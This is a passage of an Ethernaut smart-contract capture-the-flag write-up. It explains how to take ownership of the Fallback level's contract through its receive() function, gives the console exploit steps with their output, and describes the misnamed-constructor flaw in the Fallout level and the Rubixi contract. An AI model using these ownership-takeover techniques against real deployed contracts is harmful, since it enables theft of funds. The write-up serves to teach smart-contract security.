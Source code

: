 - The contract has this function
  ```solidity
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
  ```

- Anyone can call a fallback function by:
  - Calling a function that doesn’t exist inside the contract, or
  - Calling a function without passing in required data, or
  - Sending Ether without any data to the contract

- So we'll send a transaction to the contract without any data that will trigger the `receive()` function. Before that we need to pass the `require(msg.value > 0 && contributions[msg.sender] > 0)`

**Solution**
Just using the browser console
```js
await contract.contribute({value: 1234})
⛏️ Sent transaction ⛏
⛏️ Mined transaction ⛏

await contract.sendTransaction({value: 1234})
⛏️ Sent transaction ⛏
⛏️ Mined transaction ⛏ 

await contract.withdraw()
⛏️ Sent transaction ⛏
⛏️ Mined transaction ⛏

await contract.owner()
'0x355705B24b94414d7A8fCD3A7A7e2849EE9029Ce'

<>_<> Submitting level instance... <  < <<PLEASE WAIT>> >  >
⛏️ Sent transaction ⛏
⛏️ Mined transaction ⛏

◕_◕ Well done, You have completed this level!!!
```


### 2. Fallout
- This is a weird contract, by looking at `contract.abi`, there is a function name `Fal1out` which is public, so just call it and become owner
- It looks like a typo, previous solidity version define constructor function by a function with name similar to contract name
- The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:
  ```solidity
  contract Rubixi {
    address private owner;
    function DynamicPyramid() { owner = msg.sender; }
    function collectAllFees() { owner.transfer(this.balance) }
  }
  ```
